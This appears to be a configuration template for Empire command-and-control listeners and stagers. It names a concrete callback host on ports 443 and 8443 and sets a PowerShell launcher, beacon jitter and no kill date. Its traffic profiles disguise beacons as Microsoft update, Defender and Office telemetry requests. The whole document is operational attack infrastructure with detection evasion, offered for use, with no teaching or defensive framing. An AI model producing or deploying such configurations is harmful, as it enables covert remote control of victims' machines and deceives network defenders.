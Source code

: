 # Empire C2 Listener & Stager Configuration Template

## 🎯 LISTENER CONFIGURATION

### Primary HTTP Listener
```
Name: primary_http
Type: http
Host: https://161-35-155-3.sslip.io
Port: 443
BindIP: 0.0.0.0

DefaultProfile: /admin/get.php,/news.asp,/login/process.jsp|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

DefaultDelay: 5
DefaultJitter: 0.3
DefaultLostLimit: 60

KillDate: (leave empty)
WorkingHours: (leave empty for 24/7)

Launcher: powershell
StagingKey: (auto-generated)
```

### Alternate HTTP Listener (Backup)
```
Name: backup_http
Type: http
Host: https://161-35-155-3.sslip.io
Port: 8443
BindIP: 0.0.0.0

DefaultProfile: /api/v1/status,/api/v2/health,/cdn/assets|Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0

DefaultDelay: 10
DefaultJitter: 0.5
DefaultLostLimit: 30
```

---

## 📡 MALLEABLE C2 PROFILES

### Profile 1: Legitimate Microsoft Traffic
```
DefaultProfile: /microsoft/update.aspx,/windows/defender/update.php,/office/telemetry.asp|Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```
